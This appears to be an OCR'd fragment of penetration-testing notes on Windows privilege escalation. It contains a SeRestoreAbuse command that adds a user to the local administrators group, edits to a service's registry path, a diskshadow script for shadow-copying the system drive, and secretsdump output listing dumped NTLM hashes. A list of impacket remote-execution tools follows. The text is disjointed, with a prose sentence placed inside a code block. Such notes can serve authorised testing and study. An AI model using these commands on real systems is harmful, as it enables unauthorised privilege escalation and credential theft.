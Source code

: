 In penetration testing scenarios, when facing a Windows environment with SMB shares and limited initial access, attempting to capture NTLM hashes using Responder is often a standard and effective technique. It's particularly useful when other direct authentication methods have been exhausted.

Remember, in real-world penetration testing, the choice of techniques would be based on the specific environment, identified services, and potential vulnerabilities, always staying within the agreed scope and permissions of the engagement.

  

```PowerShell
.\SeRestoreAbuse.exe "cmd /c net localgroup administrators anirudh /add" WdiServiceHost
```

```PowerShell
reg query "HKLM\SYSTEM\CurrentControlSet\Services\seclogon" /v ImagePath
```

```PowerShell
reg add "HKLM\SYSTEM\CurrentControlSet\Services\seclogon" `
    /v ImagePath /t REG_EXPAND_SZ /d "%SystemRoot%\System32\svchost.exe -k netsvcs -p" /f
```

```PowerShell
Start-Service seclogon
```

```PowerShell
 on Windows, privileges are only assigned to your logon session token at the moment you log in — and that token is what all your processes inherit.
```

┌──(kali㉿hk-DC01)-[/mnt/…/Downloads/tools/winpriv/sebackuppriv]  
└─$ impacket-secretsdump -sam sam -system system LOCAL  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[_] Target system bootKey: 0xe9a15188a6ad2d20d26fe2bc984b369e_  
_[_] Dumping local SAM hashes (uid:rid:lmhash:nthash)  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:608339ddc8f434ac21945e026887dc36:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
[*] Cleaning up...

  

```PowerShell
@"
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
"@ -replace "`n", "`r`n" | Out-File -Encoding ASCII -FilePath "raj.dsh"
```

```PowerShell
wmiexec.py – Executes commands via WMI.
smbexec.py – Similar to psexec but uses SMB.
atexec.py – Executes commands via the Windows Task Scheduler.
secretsdump.py – Dumps hashes from SAM/LSASS.
```